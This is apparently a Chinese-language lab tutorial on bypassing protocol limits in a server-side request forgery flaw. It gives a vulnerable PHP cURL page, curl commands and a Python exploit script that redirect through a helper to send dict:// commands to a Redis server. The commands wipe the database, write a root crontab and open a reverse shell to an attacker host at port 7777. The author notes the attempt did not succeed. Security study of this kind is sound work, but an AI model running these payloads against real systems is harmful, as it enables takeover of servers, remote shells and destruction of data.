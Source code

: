 ### SSRF绕过协议限制

`http://192.168.220.143:8888/zhan/test/ssrf/ssrf_demo2.php`，代码如下：

```php
<?php
// 创建一个新cURL资源
$ch = curl_init();
// 设置URL和相应的选项
curl_setopt($ch, CURLOPT_URL, $_GET['url']);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, True); 
//跳转重定向为True，默认不跳转  
curl_setopt($ch, CURLOPT_PROTOCOLS, CURLPROTO_HTTP | CURLPROTO_HTTPS);
// 限制为HTTPS、HTTP协议
curl_setopt($ch, CURLOPT_HEADER, false);
// 抓取URL并把它传递给浏览器
curl_exec($ch);
//关闭cURL资源，并且释放系统资源
curl_close($ch);
?>
```

```sh
curl -v 'http://192.168.220.143:8888/zhan/test/ssrf/ssrf_demo2.php?url=http://192.168.220.139:80/test/ssrf/302.php?s=dict%26ip=192.168.220.142%26port=6379%26data=flushall'
curl -v 'http://192.168.220.143:8888/zhan/test/ssrf/ssrf_demo2.php?url=http://192.168.220.139:80/test/ssrf/shell.php?s=dict%26ip=192.168.220.142%26port=6379%26bhost=192.168.220.140%26bport=7777'
curl -v 'http://192.168.220.143:8888/zhan/test/ssrf/ssrf_demo2.php?url=http://192.168.220.139:80/test/ssrf/302.php?s=dict%26ip=192.168.220.142%26port=6379%26data=config:set:dir:/var/spool/cron/'
curl -v 'http://192.168.220.143:8888/zhan/test/ssrf/ssrf_demo2.php?url=http://192.168.220.139:80/test/ssrf/302.php?s=dict%26ip=192.168.220.142&port=6379&data=config:set:dbfilename:root'
curl -v 'http://192.168.220.143:8888/zhan/test/ssrf/ssrf_demo2.php?url=http://192.168.220.139:80/test/ssrf/302.php?s=dict%26ip=192.168.220.142%26port=6379%26data=save'
```

 （理论上应该可以，但是实验没有成功，有可能是url编码的问题，以后有时间再来深究）

 脚本：

```python
#!/usr/bin/env python
# encoding: utf-8

import requests
host = '192.168.220.142'
port = '6379'
bhost = '192.168.220.140'
bport = '7777'
vul_httpurl = 'http://192.168.220.143:8888/zhan/test/ssrf/ssrf_demo.php?url='
_location = 'http://192.168.220.139:80/test/ssrf/302.php'
shell_location = 'http://192.168.220.139:80/test/ssrf/shell.php'
#1 flush db
_payload = '?s=dict%26ip={host}%26port={port}%26data=flushall'.format(
    host = host,
    port = port)
exp_uri = '{vul_httpurl}{0}{1}%23helo.jpg'.format(_location, _payload, vul_httpurl=vul_httpurl)
print exp_uri
print requests.get(exp_uri).content
#2 set crontab command
_payload = '?s=dict%26ip={host}%26port={port}%26bhost={bhost}%26bport={bport}'.format(
    host = host,
    port = port,
    bhost = bhost,
    bport = bport)
exp_uri = '{vul_httpurl}{0}{1}%23helo.jpg'.format(shell_location, _payload, vul_httpurl=vul_httpurl)
print exp_uri
```